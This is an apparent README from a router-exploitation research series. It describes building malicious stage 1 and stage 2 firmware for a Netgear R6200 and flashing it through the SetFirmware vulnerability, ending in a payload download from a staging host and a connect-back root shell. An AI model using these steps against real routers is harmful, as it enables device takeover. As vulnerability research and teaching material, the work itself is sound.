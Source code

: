 ##Broken, Abandoned, and Forgotten Code, Part 14

This code corresponds with [part 14](http://shadow-file.blogspot.com) of the Broken, Abandoned, and Forgotten Code series. In this part we build the second stage firmware image that will be flashed to the device by stage 1 and, after rebooting, will provide a remote root session.

There have been substantial changes to the part 14 code from the previous part. While ``setfirmware.py`` is still present, there is a new exploit script, ``firmware_exploit.py``. This script uses classes declared in the former. It also provides the various connect-back servers you require to serve connections to the first and second stage payloads. It requires no command line arguments. Instead, configuration parameters are specified in ``environment.py``, which is thoroughly documented.

A build system to create the stage 1 and 2 firmware images can be found in payload-src. However, there are a few pieces I didn't include due to licensing.

* Kernel image (proprietary Netgear EULA)
* Root filesystem (proprietary Netgear EULA)
* mtd writing utility from OpenWRT (GPL licensed)

You can extract the filesystem and kernel from a stock Netgear firmware image. I used and tested the Netgear firmware R6200-V1.0.0.28_1.0.24.chk:

    $ md5sum R6200-V1.0.0.28_1.0.24.chk
    0bbb9004c8cddf2d9602719c34c9e33e  R6200-V1.0.0.28_1.0.24.chk

Identify the offsets and sizes of the kernel and filesystem components using binwalk, and then extract them using `dd`:

     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=squashfs.bin skip=1328446 bs=1
     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=kernel-lzma.bin skip=86 bs=1 count=1328360

Put ``kernel-lzma.bin`` into payload-src/.

Unpack the squashfs.bin into a root filesystem. Extracting a SquashFS filesystem is beyond the scope of this documentation.

You'll need to put a copy of the non-minimized root filesystem in place for stage 2. Put an unmodified ``rootfs.tar.gz`` in ``exploit-src/stage2/src/``.

Then, you'll need to generate a minimized root filesytem directory as described in [part 11](http://shadow-file.blogspot.com/2015/07/abandoned-part-11.html).

Tar up your minimized root filesystem, and put ``rootfs.tar.gz`` in ``exploit-src/stage1/src/``.

The mtd writer is responsible for flashing the stage 2 firmware image. I have modified this utility from OpenWRT to work with this project. Check out the source and put it in place:

    $ git clone https://github.com/zcutlip/mtdwriter.git
    $ tar zcvf broken_abandoned/part_13/exploit-src/stage1/src/mtdwriter.tar.gz mtdwriter/

You'll also need a little endian MIPS gcc toolchain. Ensure ``mipsel-linux-gcc`` and friends are in your ``$PATH``.

With the missing pieces in place, you can build the stage 1 and 2 firmware images:

    $ cd exploit-src/
    $ ./buildmipsel.sh

This will generate ``stage1.chk`` and ``stage2mtd.bin`` files. Put them in the SRVROOT directory specified in ``environment.py``.

With this update, assuming you've generated a working, minimized firmware, you should be able to exploit the ``SetFirmware`` vulnerability, and flash your firmware image to the router. Edit environment.py and specify the appropriate connect-back ports, target IP address and port, names of stage 1 and 2 files, and the directory to serve them out of. Then run:

``./firmware_exploit.py``

Upon rebooting, the stage 1 firmware will attempt to download the second stage from ``http://10.12.34.56:8080/stage2mtd.bin``. Then, if all goes well, there is a second reboot and then a connect-back shell to the IP address and port you specified in the ``telnetenabled`` script.
